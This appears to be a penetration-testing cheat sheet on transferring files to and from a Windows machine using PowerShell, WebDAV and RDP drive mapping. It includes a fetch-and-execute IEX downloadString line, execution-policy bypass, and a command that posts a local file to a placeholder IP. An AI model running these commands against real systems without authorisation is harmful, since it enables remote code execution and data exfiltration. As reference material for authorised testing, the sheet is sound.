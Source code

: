 
-------------------------------
	

## PowerShell

- **Server** setup - any HTTP server method
- **Client** commands in `powershell.exe` to **download** a file
	- Way 1
		- `(new-object System.Net.WebClient).DownloadFile('//<ip_address>/<filename>','d:\data\<where_to_put_filename>')`
	- Way 2
		- `Invoke-WebRequest "https://<ip_address>/<filename>" -OutFile "C:\Windows\Temp\<where_to_put_filename>"`
	- Way 3
		- `IEX(New-Object Net.WebClient).downloadString('http://<address>/<filename>')`
- **Client** commands in `cmd.exe` to **download** a file
	- `powershell -exec bypass -c "(new-object System.Net.WebClient).DownloadFile('http://<ip_address>:<port>/<filename>','C:\Backup\download\<where_to_put_filename>')"`
- **Client** commands in `cmd.exe` to **upload** a file
	- `powershell -exec bypass -c "Invoke-RestMethod -Uri http://<ip_address>:<port> -Method Post -InFile C:\Users\Public\test.TXT"`


-------------------------------

## Webdav


- **Server** setup - any HTTP server method
	- On kali linux install wsgidav and cheroot
		- `pip install wsgidav cheroot`
	- Start the wsgidav on a restricted folder:
		- `mkdir -p /home/webdav_folder/share`
		- `wsgidav --host=0.0.0.0 --port=80 --root=/home/webdav_folder --auth anonymous`
- **Client** commands in `cmd.exe` to mount the folder (in order to **upload/download**)
	- `net use x: \\YOUR_IP_ADDRESS\share`
 
Reference: https://github.com/mar10/wsgidav


-------------------------------

## meterpeter


-------------------------------

## rdp

- **Client** commands in `bash` to mount a folder (**download/upload** any file)
	- Way 1
		- `rdeskto p<ip> -u <user> -p <pass> -r disk:<share_name_that_will_be_on_Win>=<path_to_your_lin_folder>`
	- Way 2
		- `xfreerdp /v:<ip> /u:<user> /p:<pass> /drive:<share_name_that_will_be_on_Win>,<path_to_your_lin_folder>`
